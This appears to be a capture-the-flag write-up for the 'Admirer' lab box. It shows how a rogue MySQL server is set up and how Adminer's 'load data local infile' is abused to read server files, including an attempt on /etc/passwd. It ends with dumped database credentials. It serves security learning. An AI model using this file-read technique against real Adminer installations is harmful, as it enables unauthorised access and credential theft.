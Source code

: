 # User Exploiting

## sql

* __First__, setup mysql server in my local machine

	  $ sudo service mysql start	//start mysql service
	  $ sudo mysql -u root	//login as root user in our sql server
	  > create database ladmirer;	//create database
	  > show databases;
	  //setup user 
	  > create user 'luser'@'%' IDENTIFIED BY 'lpass';
	  > GRANT ALL PRIVILEGES ON * . * TO 'username'@'%';
	  > FLUSH PRIVILEGES;
	  > create table test (data VARCHAR(225)); //create test data in the created database

* __Second__ , bind server to `tun0` address by editing cnf file

	  nano /etc/mysql/mariadb.conf.d/50-server.cnf
		bind-address  = 0.0.0.0		//change bind address to tun0 or 0.0.0.0 

* __Third__, restart mysql service

	  $ sudo service mysql restart
	  $ mysql -h localhost -u luser -p 	//testing created user
		> lpass		//password

* __Fourth__, login to adminer and connect back to my local sql server

	  System = MySQL
	  Server = tun0
	  Username = luser
	  Password = lpass
	  Database = ladmirer

* __Fifth__, dump remote server database by running this command from `SQL Command` terminal in adminer

	  load data local infile '/var/www/html/index.php'
	  into table test
	  fields terminated by "/n"

> try to read `/etc/passwd` got an error

> reading `/var/www/html/index.php` dump 123 rows*

* __Sixth__, read dumped `adminer.php` file in SQL command terminal in adminer

	  SELECT * from ladmirer.test;
	
	__*intresting data inside dump*__

	  $servername = \"localhost\";
	  $username = \"waldo\";
	  $password = \"&<h5b~yK3F#{PaPB&dA}{H>\";
	  $dbname = \"admirerdb\";
